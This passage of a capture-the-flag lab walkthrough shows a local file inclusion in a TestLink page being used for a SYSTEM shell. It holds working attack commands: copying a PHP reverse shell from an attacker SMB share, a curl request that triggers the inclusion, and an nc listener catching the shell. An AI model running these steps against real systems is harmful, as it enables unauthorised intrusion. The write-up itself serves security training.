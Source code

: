 ```
require_once('users.inc.php');
require_once($PiperCoinAuth);    <-- I can control in post
testlinkInitPage($db, true);  
...[snip]...

```

That means I can provide a path anywhere on the host, and it will be included.

### Shell as system

I’ll grab a [Windows php reverse shell](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php), update the ip and port, and get it onto the system:

```

C:\>copy \\10.10.14.14\share\php-rev-shell.php \users\nelson\appdata\local\temp\a.php
copy \\10.10.14.14\share\php-rev-shell.php \users\nelson\appdata\local\temp\a.php
        1 file(s) copied.

```

Trigger it with `curl`, with `PiperID` to get past `if(isset($_POST['PiperID']))`, and setting `PiperCoinID` as my shell location:

```

root@kali# curl -X POST http://localhost:5080/testlink/linkto.php -d 'PiperCoinID=C:\Users\Nelson\AppData\Local\Temp\a.php&PiperID' -x http://127.0.0.1:8080

```

I get a shell as system:

```

root@kali# rlwrap nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.112.
Ncat: Connection from 10.10.10.112:49277.
b374k shell : connected

Microsoft Windows [Version 6.0.6002]
Copyright (c) 2006 Microsoft Corporation.  All rights reserved.

C:\Windows\Temp>whoami
nt authority\system

```

I can finally get `user.txt`:

```

C:\Users\nginx\Desktop>type user.txt
5f158aa8...

```
